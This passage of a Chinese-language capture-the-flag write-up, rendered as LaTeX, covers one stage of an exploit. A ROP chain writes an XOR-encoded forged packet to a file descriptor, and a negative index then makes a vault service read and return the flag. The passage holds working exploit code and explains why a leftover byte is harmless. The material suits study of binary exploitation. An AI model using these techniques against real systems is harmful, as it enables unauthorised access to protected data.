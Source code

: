 \documentclass[10pt,a4paper]{article}
\newenvironment{Shaded}{\begin{snugshade}}{\end{snugshade}}
\newcommand{\BaseNTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\CharTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\newcommand{\CommentTok}[1]{\textcolor[rgb]{0.56,0.35,0.01}{\textit{#1}}}
\newcommand{\DecValTok}[1]{\textcolor[rgb]{0.00,0.00,0.81}{#1}}
\newcommand{\NormalTok}[1]{#1}
\newcommand{\OperatorTok}[1]{\textcolor[rgb]{0.81,0.36,0.00}{\textbf{#1}}}
\newcommand{\StringTok}[1]{\textcolor[rgb]{0.31,0.60,0.02}{#1}}
\renewenvironment{Shaded}{%
  \def\FrameCommand{\fboxsep=3.2pt\colorbox{shadecolor}}%
  \MakeFramed{\advance\hsize-\width\FrameRestore\small}%
}{%
  \endMakeFramed
}
\providecommand{\tightlist}{%
  \setlength{\itemsep}{0pt}\setlength{\parskip}{0pt}}
\begin{document}
\begin{Verbatim}[breaklines=true,breakanywhere=true,breakautoindent=false,fontsize=\fontsize{7.0}{9.5}\selectfont]
[+] XOR key = 1cf20c05
\end{Verbatim}

\paragraph{階段 3：把偽造封包寫進 fd
3}\label{ux968eux6bb5-3ux628aux507dux9020ux5c01ux5305ux5bebux9032-fd-3}

送到 \texttt{0x40a228}：

\begin{Shaded}
\begin{Highlighting}[]
\NormalTok{req }\OperatorTok{=}\NormalTok{ xor\_key(p8(}\DecValTok{3}\NormalTok{) }\OperatorTok{+} \StringTok{b\textquotesingle{}}\CharTok{\textbackslash{}x00\textbackslash{}x04}\StringTok{\textquotesingle{}} \OperatorTok{+}\NormalTok{ p8(}\DecValTok{0}\NormalTok{) }\OperatorTok{+}\NormalTok{ p32(}\BaseNTok{0xfffffffc}\NormalTok{), key)}
\NormalTok{chain  }\OperatorTok{=}\NormalTok{ [POP\_RDI, }\DecValTok{3}\NormalTok{, POP\_RSI, A2, WRITE\_RDX\_RAX]   }\CommentTok{\# write(3, A2, rdx)}
\NormalTok{chain }\OperatorTok{+=}\NormalTok{ [POP\_RSI, A2}\OperatorTok{+}\DecValTok{3}\NormalTok{, WRITE\_RDX\_RAX]             }\CommentTok{\# write(3, A2+3, rdx)}
\NormalTok{chain }\OperatorTok{+=}\NormalTok{ [POP\_RSI, A2}\OperatorTok{+}\DecValTok{6}\NormalTok{, WRITE\_RDX\_RAX]             }\CommentTok{\# write(3, A2+6, rdx)}
\NormalTok{chain }\OperatorTok{+=}\NormalTok{ [POP\_RBX, }\BaseNTok{0xff}\NormalTok{, SUBMIT\_READ]}
\end{Highlighting}
\end{Shaded}

\begin{itemize}
\tightlist
\item
  \texttt{rdx\ \allowbreak{}=\ \allowbreak{}rax\ \allowbreak{}=\ \allowbreak{}上一次\ \allowbreak{}write\ \allowbreak{}的回傳值\ \allowbreak{}=\ \allowbreak{}3}，所以每次只能寫
  3 bytes → 切成 3 段寫完 9 bytes。
\item
  ※注意 \textbf{為什麼可以多送第 9 個 byte？} \texttt{req} 其實只有 8
  bytes（\texttt{p8(3)\ \allowbreak{}+\ \allowbreak{}b\textquotesingle{}\allowbreak{}\textbackslash{}\allowbreak{}x00\textbackslash{}\allowbreak{}x04\textquotesingle{}\allowbreak{}\ \allowbreak{}+\ \allowbreak{}p8(0)\ \allowbreak{}+\ \allowbreak{}p32(0xfffffffc)}），
  但鏈是 3 + 3 + 3 = 9 bytes 送出去的，第 9 個 byte 是
  \texttt{d2{[}8{]}}（= \texttt{0x00}）。
  它\textbf{不會}被這次的封包用掉，而是留在 socket
  裡等保險箱下一次讀標頭 ------
  對本次流程無害（保險箱下一次讀標頭時，\texttt{op\ \allowbreak{}=\ \allowbreak{}0} 不是
  1\textasciitilde4，只會回一個錯誤， 而那時我們已經把 flag 印完了）。
  \textbf{不要以為「多送 1 byte
  不會被檢查」是通則}：這裡能混過去，是因為 「多出來的 byte
  剛好落在下一條協定訊息的最前面，而我們不在乎那條訊息」。
\item
  保險箱收到後執行 \texttt{op=3,\allowbreak{}\ \allowbreak{}index=-\allowbreak{}4} →
  \texttt{pread(flag\_\allowbreak{}fd,\allowbreak{}\ \allowbreak{}...)} → 回傳 flag。
\end{itemize}
\end{document}

